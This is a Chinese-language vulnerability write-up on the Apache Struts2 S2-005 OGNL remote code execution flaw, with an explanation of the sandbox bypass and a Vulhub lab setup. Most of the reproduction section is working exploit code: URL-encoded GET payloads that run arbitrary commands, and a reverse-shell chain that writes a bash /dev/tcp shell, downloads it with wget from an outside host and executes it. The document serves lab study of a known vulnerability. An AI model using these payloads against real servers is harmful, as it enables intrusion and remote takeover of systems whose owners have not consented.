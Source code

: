 # Apache Struts2 S2-005 远程代码执行漏洞

## 漏洞描述

参考吴翰清的《白帽子讲 Web 安全》一书。

> s2-005 漏洞的起源源于 S2-003(受影响版本: 低于 Struts 2.0.12)，struts2 会将 http 的每个参数名解析为 OGNL 语句执行 (可理解为 java 代码)。OGNL 表达式通过#来访问 struts 的对象，struts 框架通过过滤#字符防止安全问题，然而通过 unicode 编码 (\u0023) 或 8 进制 (\43) 即绕过了安全限制，对于 S2-003 漏洞，官方通过增加安全配置 (禁止静态方法调用和类方法执行等) 来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用 OGNL 表达式将这 2 个选项打开，S2-003 的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork 会将 GET 参数的键和值利用 OGNL 表达式解析成 Java 语句，如：

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合 OGNL 的沙盒绕过方法，组成了 S2-003。官方对 003 的修复方法是增加了安全模式（沙盒），S2-005 在 OGNL 表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用 `\u0023` 绕过 s2 对 `#` 的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用 OGNL 表达式将沙盒关闭，继续执行代码

漏洞详情:

- http://struts.apache.org/docs/s2-005.html

## 漏洞影响

影响版本: 2.0.0 - 2.1.8.1

## 环境搭建

Vulhub 执行以下命令启动 s2-005 测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

执行任意命令 POC（无回显，空格用 `@` 代替）：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/awesome_poc%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36
```

![image-20220301161455042](images/202203011614123.png)

命令 `touch /tmp/awesome_poc` 成功执行：

![image-20220301161548594](images/202203011615639.png)

网上一些 POC 放到 tomcat8 下会返回 400，研究了一下发现字符 `\`、`"` 不能直接放 path 里，需要 urlencode，编码以后再发送就好了。这个 POC 没回显。

POC 用到了 OGNL 的 Expression Evaluation：

![](images/202203011611125.jpeg)

大概可以理解为，`(aaa)(bbb)` 中 aaa 作为 OGNL 表达式字符串，bbb 作为该表达式的 root 对象，所以一般 aaa 位置如果需要执行代码，需要用引号包裹起来，而 bbb 位置可以直接放置 Java 语句。`(aaa)(bbb)=true` 实际上就是 `aaa=true`。不过确切怎么理解，还需要深入研究，有待优化。

### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22wget@192.168.174.128/shell.sh%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
```

执行 shell.sh 文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22bash@/usr/local/tomcat/shell.sh%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
```

成功接收反弹 shell：

![image-20220301162511817](images/202203011625901.png)
